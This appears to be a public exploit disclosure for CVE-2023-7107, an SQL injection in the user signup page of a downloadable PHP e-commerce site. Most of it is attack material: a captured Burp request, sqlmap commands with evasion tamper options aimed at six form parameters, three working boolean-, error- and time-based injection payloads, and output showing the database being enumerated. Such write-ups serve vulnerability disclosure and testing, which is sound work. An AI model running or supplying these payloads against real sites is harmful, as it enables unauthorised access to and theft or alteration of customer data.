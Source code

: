 # CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Exploit Title:** E-Commerce Website - SQL Injection 3
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7107

## References: 
+ **CVE-2023-7107:** https://vuldb.com/?id.249002
+ https://www.cve.org/CVERecord?id=CVE-2023-7107

##  Description:
E-Commerce Website 1.0 allows SQL Injection via parameters 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' in "/Electricks/Electricks-shop/pages/user_signup.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill the the all form and click Create Account button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 427
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sdqvs3v86m3s0vdqik7c5uah4g
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

submit=test&address=test&username=Test&email=test%40example.com&lastname=Test&middlename=Test&firstname=Test&contact=test&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p firstname --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: firstname (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4675586a WHERE 8114=8114 AND 5578=5578)||'&contact=test&password=Pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x59676a78 WHERE 1465=1465 AND (SELECT 6021 FROM(SELECT COUNT(*),CONCAT(0x7170707671,(SELECT (ELT(6021=6021,1))),0x717a707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&contact=test&password=Pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4a6a6e4b WHERE 2213=2213 AND (SELECT 8358 FROM (SELECT(SLEEP(5)))jkvt))||'&contact=test&password=Pass
---
[22:05:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:05:28] [INFO] fetching current database
[22:05:28] [INFO] resumed: 'electricks'
current database: 'electricks'
```

+ current database: `electricks`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/bfffd456-06bc-42e9-b55e-ee361a6b8fb6)

+ Try to dump the db on other 5 parameters:
```
python sqlmap.py -r r.txt -p middlename --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p email --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p address --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p contact --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```
